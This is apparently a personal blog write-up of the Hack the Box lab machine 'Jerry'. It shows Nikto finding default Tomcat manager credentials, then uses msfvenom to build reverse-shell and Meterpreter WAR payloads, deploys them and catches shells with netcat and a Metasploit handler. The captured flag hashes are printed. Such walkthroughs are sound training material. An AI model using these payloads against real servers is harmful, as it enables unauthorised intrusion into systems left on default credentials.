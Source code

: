 ```yaml
---
title: "Hack the box - Jerry"
date: 2018-07-18T20:08:47+02:00
draft: false
---
```


# Jerry

This is my writeup of the Hack the Box machine [Jerry](https://www.hackthebox.com/machines/jerry).

I used Nikto for enumeration and `msfvenom` to get a reverse shell. The revere shell was unstable, so I used Meterpreter to get a more reliable foothold.

## Enumeration

The [nmap scan](nmap_scan.txt) showed a Tomcat instance, remote desktop port (3389) among other open ports.

I had no luck in getting access to the remote desktop port.

And unfortunately, the Tomcat required credentials.

The version was 7.0.88 of which there existed an exploit for privilege escalation, but this only local, not remote.

Since this was a web-server, maybe Nikto could help.

```shell
trickmask@kali:~$ nikto -h 10.10.10.95:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2018-07-17 20:03:53 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
[snip]
+ OSVDB-3233: /a/: May be Kebi Web Mail administration menu.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
[snip]
```

It found something on the `/a/` endpoint. Opening it up only displayed an empty page.

It found `Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret')`. Score!

This gave access to uploading/deploying `.war` files from <http://10.10.10.95:8080/manager/html>.

## Exploit

How to get reverse shell? This is a Windows box, so we don't have the `nc` utility.

I ended up using Metasploit to generate a reverse-shell to my machine.

I got the generation script from the archive at http://netsec.ws/?p=331.

```shell
$ msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=10.10.XX.XX \
LPORT=44332 \
-f war \
-o shell.war
```

I deployed `shell.war` in Tomcat, opened a listening socket on my machine `nc -lvp 44332`, and then activated the exploit by visiting the application at <http://10.10.10.95:8080/shell/>, and it connected back!
I found the flags on the desktop.

```batchfile
trickmask@kali:~/Desktop$ nc -lvp 44332
listening on [any] 44332 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.95] 49264
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>
```

## Exploit using Metepreter payload

Annoyingly the shell was rather unstable. Somewhat randomly it dropped the connection (mostly after I mistyped something). I've heard about Metepreter before, and wanted to try that out.

Using `msfvenom --list | grep meterpreter` I could find the payload I could use: `windows/x64/meterpreter_reverse_tcp`.

I generated the reverse shell `.war` file:

```shell
$ msfvenom \
-p windows/x64/meterpreter_reverse_tcp  \
LHOST=10.10.XX.XX \
LPORT=44332 \
-f war \
-o meterpreter.war \
--platform windows \
--arch x64
```

And deployed `meterpreter.war` in Tomcat.

Set up the handler (in `msfconsole`)

```shell
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter_reverse_tcp
msf > set LHOST 10.10.15.234
msf > set LPORT 44332
msf > exploit

[*] Started reverse TCP handler on 10.10.14.234:44332
```

Activated exploit by visiting <http://10.10.10.95:8080/meterpreter/>, and watched as I get a Meterpreter session from which I could launch a shell:

```batchfile
[*] Meterpreter session 4 opened (10.10.14.234:44332 -> 10.10.10.95:49278) at 2018-07-18 16:22:48 +0200

meterpreter > shell
Process 2908 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>
```
